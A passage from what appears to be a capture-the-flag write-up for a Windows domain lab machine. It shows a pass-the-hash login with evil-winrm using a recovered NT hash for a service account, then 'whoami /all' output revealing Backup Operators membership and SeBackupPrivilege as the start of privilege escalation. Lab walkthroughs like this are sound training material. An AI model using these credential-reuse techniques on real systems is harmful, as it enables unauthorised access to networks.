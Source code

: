Looking at the results we can see the nt hash for the user svc_backup and we know this user is a domain user from the domain_users.txt file 

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d                                    
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
```

## Privilege Escalation

```bash
PS C:\Users\svc_backup\Documents> whoami /all

USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
```